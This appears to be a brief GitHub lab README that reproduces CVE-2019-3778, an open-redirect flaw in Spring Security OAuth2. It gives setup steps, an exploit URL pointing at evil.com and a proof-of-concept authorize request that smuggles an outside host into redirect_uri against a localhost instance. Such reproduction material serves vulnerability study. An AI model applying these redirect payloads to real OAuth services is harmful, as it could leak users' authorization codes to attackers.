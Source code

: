 #【CVE-2019-3778】Spring-Security-OAuth2 Open Redirection

### Description
![](./2.png)

### Environment

1. load the sql file
2. change the username and password of the database.
3. ```mvn install```
4. ```java -jar xxxx.jar```


### EXP

```http://evil.com%ff@good.com```

### PoC

```http://localhost:9090/oauth/authorize?response_type=code&client_id=ananaskr&redirect_uri=http://www.google.com%EF%BC%8F@www.baidu.com&scope=all&client_secret=123456```

![](./1.png)


